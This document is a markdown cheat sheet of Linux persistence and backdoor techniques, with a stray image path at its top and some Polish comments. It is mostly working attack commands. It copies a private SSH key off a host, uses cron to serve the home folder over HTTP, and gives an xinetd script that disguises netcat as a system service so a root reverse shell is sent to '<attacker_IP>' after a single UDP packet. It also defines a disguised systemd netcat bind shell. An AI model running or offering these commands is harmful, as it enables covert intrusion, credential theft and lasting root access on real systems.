 
# ssh key

```bash
scp student@192.37.104.3:~/.ssh/id_rsa .
chmod 400 id_rsa
ssh -i id_rsa student@192.37.104.3
```

# cron jobs

```bash
echo "* * * * * cd /home/student/ && python -m SimpleHTTPServer" > cron # cron job, tworzy serwer http w folderze domowym
crontab -i cron
crontab -l
```
## Xinetd UDP Portknock Backdoor
Persist across reboot

The following script, when executed, will create a new xinetd service called "services-udp.” 
The “services-udp” custom service will be configured to listen on port 65534 UDP on the target machine. 
It will also require that netcat (nc) is on the target host in the usual /bin/ directory. 
It will copy the nc executable to a file called “/bin/services-udp.” 
We're obscuring netcat as another file in this case.
```bash
$ cat xinetd_server.sh

#!/bin/bash
cp /bin/nc /bin/services-udp

echo "service services-udp" >/etc/xinetd.d/services-udp
echo "{" >> /etc/xinetd.d/services-udp
echo "		server = /bin/services-udp" >> /etc/xinetd.d/services-udp
echo "		server_args = <attacker_IP> <attacker_PORT> -e /bin/bash" >> /etc/xinetd.d/services-udp
echo "		protocol = udp" >> /etc/xinetd.d/services-udp
echo "		user = root" >> /etc/xinetd.d/services-udp
echo "		socket_type = dgram" >> /etc/xinetd.d/services-udp
echo "		wait = yes" >> /etc/xinetd.d/services-udp
echo "		flags = IPv4" >> /etc/xinetd.d/services-udp
echo "}" >> /etc/xinetd.d/services-udp
echo "services-udp	65534/udp       # services-udp" >> /etc/services
/etc/init.d/xinetd stop
/etc/init.d/xinetd start
```
```bash
$ nc -lvnp 4444 # Attacker, listener
$ hping3 -2 -c 1 <target IP> -p 65534 # Victim, send single UDP packet to port 65534 on the target host, custom service will send a reverse shell
```
# Systemd Netcat Bind Shell
```bash
$ cp /bin/nc /lib/systemd/systemd-service # copy nc file

# systemd service configuration file will create bindshell on port 56825 TCP
$ cat /lib/systemd/system/systemd.service # create service configuration file
[Unit]
Description = Systemd Service
After = network.target
[Service]
ExecStart = /lib/systemd/systemd-service -lvp 56825 -e /bin/sh 
[Install] 
WantedBy = multi-user.target

# enable and start service
$ systemctl enable systemd.service
$ systemctl start systemd.service
# confirm custom service start
$ netstat –auntp |grep 56825
```
```bash
$ nc <IP> 56825
```